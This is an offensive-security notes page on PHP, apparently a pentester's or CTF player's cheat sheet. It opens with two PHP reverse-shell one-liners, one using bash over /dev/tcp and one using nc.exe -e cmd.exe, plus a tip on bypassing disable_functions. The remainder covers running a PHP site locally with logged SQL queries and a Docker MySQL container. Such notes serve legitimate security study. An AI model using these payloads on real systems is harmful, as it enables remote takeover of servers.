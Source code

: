 # PHP

All things PHP

```php
# Reverse shell payload
<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.151/9001 0>&1'\");?>
<?php exec(\"C:\ProgramData\System\nc.exe 172.16.87.254 443 -e cmd.exe\");?>
```

## Capabilities

### dfunc-bypasser

If access to phpinfo, but command execution not working, check `disable_functions`, and run the file/url against [dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser)

```bash
# Check a phpinfo.php file
python2 dfunc-bypasser/dfunc-bypasser.py --file phpinfo.ph

# Check a phpinfo url
python2 dfunc-bypasser/dfunc-bypasser.py --url http://localhost/phpinfo.php
```

### Web Server

Emulate a web server given the source code via the following steps

Change database calls within the source code by adding the following function to `db_utils.php`:

```php
function print_sql_query($stmt, $params = []) {
	$query = $stmt->queryString;
	foreach ($params as $key => $value) {
		$query = str_replace(":$key", "'" . $value . "'", $query);
	}
	file_put_contents('debug.log', $query . "\n", FILE_APPEND);
}
```

Then comment out the database calls and add the print function below it:

```php
$stmt->execute($params);
```

Becomes

```php
// $stmt -> execute($params);
print_sql_query($stmt, $params);
```

This will allow the website to function without a database, and printing all database calls to a newly created file `debug.log`.

Continuously view `debug.log` with the command:

```bash
tail -f debug.log
```

Note: You can add the code:

```php
file_put_contents('debug.log', $any_variable . "\n", FILE_APPEND);
```

To any part of the code now to output additional debug information

### Database

To still simulate the database connection perform the following steps:

Install Docker

```bash
sudo apt-get install docker.io
```

Start Docker

```bash
sudo systemctl start docker
sudo systemctl enable docker
```

Verify installation

```bash
sudo docker --version
```

Run MySQL in Docker

```bash
sudo docker pull mysql
```

Start MySQL container

```bash
sudo docker run --name mysql-db -e MYSQL_ROOT_PASSWORD=myrootpassword -e MYSQL_DATABASE=clicker -e MYSQL_USER=clicker_db_user -e MYSQL_PASSWORD=clicker_db_password -p 3306:3306 -d mysql
```

Where `MYSQL_DATABASE`, `MYSQL_USER`, and `MYSQL_PASSWORD` are changed to their proper values based on the `db_utils.php` file.

Check container status

```bash
sudo docker ps
```

Once done analyzing, tear down with the commands:

```bash
sudo docker stop mysql-db
sudo docker rm mysql-db
```

### Execution

Now you can run the website with the following command:

```bash
php -S localhost:8000
```
